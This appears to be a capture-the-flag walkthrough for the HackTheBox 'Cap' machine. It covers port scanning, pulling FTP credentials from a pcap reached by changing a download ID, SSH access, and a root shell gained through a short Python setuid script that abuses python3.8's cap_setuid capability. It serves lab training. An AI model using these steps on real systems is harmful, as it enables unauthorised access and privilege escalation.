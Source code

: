 ```yaml
---
title: "HackTheBox: Cap - Walkthrough"
description: "A writeup for the Cap machine on HackTheBox"
excerpt_separator: "<!--more-->"
toc: true
toc_label: "HackTheBox - Cap"
toc_icon: "stream"
toc_sticky: true
categories:
  - hackthebox
tags:
  - Writeup
  - HackTheBox
  - CTF
---
```

## Introduction

[Cap](https://www.hackthebox.eu/home/machines/profile/351) is an easy difficulty room on the [HackTheBox](https://app.hackthebox.eu/) platform. The box consists of a web application that allows us download pcap files. One of the pcap files contains credentials we can use to login into the FTP server to gte the first flag. After this, we can use the same credentials to login to the box via SSH as the user and exploit a linux SUID capability that allows us to obtain a root shell via python.

---

## Recon

We start off with by running nmap on the target, scanning for all ports using the stealth scan option `-sS` and performing service and version detection `-sV`.

> *The services on the machine can take some time to start up, so give the machine a minute or two before starting the scan.*

`sudo nmap -sS -sV -p- 10.10.10.245 -oN cap.nmap`

```
$ sudo nmap -sS -sV -p- 10.10.10.245 -oN palsforlife.nmap

```

We can see that ports `21`, `22` and `80` are open. Let us enumerate each of these ports.

---

### Port 21

We can check if anonymous login is enabled.

```
$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
```

It appears that a password is required. We could try bruteforcing the ftp login using the `hydra` and the following [wordlist](https://github.com/danielmiessler/SecLists/raw/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt), however it appears that none of these work.

Let us revisit this port later.

---

### Port 22

We can try to fingerprint what is version of SSH is running on port 22 along with the possible operating system.

```
$ nc -nvvv 10.10.10.245 22
(UNKNOWN) [10.10.10.245] 22 (ssh) open
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
```

It appears that it is running Ubuntu. Aside from this, we cannot do much with this port. Let us move on. 

---

### Port 80

From our nmap scans, we are able to determine that a Gunicorn webserver is running on port 80. Opening [http://10.10.10.245/](http://10.10.10.245/) in a web browser, we find a security dashboard application, which appears to be a static dashboard. 

![web-app-dashboard](/img/cap/port80-dashboard.png)

Browsing through the application, we find that application has functionalities to perform various network based operations such as IP config and packet capture. 

The tab titled `Security Snapshot` has the functionality to download a packet capture of the last 5 seconds along with various metrics after an analysis of the capture.

![pcap-snapshot-tab](/img/cap/snapshot-tab.png)

Clicking the download button will download a file called `1.pcap`. Opening the file in Wireshark, we can see that the traffic that was captured in the last 5 seconds. 

### Credential found in pcap file

Notice how the URL is http://10.10.10.245/data/1. By observing the traffic in a proxy like BurpSuite, we can see that clicking on the download button makes a GET request to http://10.10.10.245/download/1.

It is quite possible that there are other files that were made before this one. Let us try to get `http://10.10.10.245/download/0`.

![0-pcap](/img/cap/0-pcap.png)

Opening this file, we can see username and password for user `nathan` in the FTP data.

![0-pcap](/img/cap/nathan-creds.png)

Using these credentials, we will be able to login to the FTP server.

### Login via SSH 

We can login via SSH using Nathan's credentials, we can see that user.txt is present.

```
$ cat user.txt 
5194****************************
```

Note that we can login to the FTP server with the same credentials and find user.txt there as well since the ftproot is in nathan's home directory.

![ftp-dir](/img/cap/ftp-dir.png)

---

## Privilege Escalation

### Enumeration

We can upload the linPEAS script onto the target via scp to determine possible privilege escalation vectors.

```
$ scp ./linpeas.sh nathan@10.10.10.245:/dev/shm/
nathan@10.10.10.245's password: 
linpeas.sh                                    100%  442KB   2.8MB/s   00:00
```

We run the script and find that there is an interesting linux capability for python.

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The `cap_setuid` capability allows python to set the effective user id of the created process. This means we can very easily abuse it to escalate privileges to root.

### Escalate to root

Let us create a simple python script that should give us an elevated shell

```
import os
os.setuid(0)
os.system("/bin/bash")
```

Execute using `/usr/bin/python3.8 <filename>.py`.

This will give us a root shell.

![root-shell](/img/cap/root-shell.png)

We can now access root.txt in `/root`

```
# cat root.txt
cc55****************************
```

---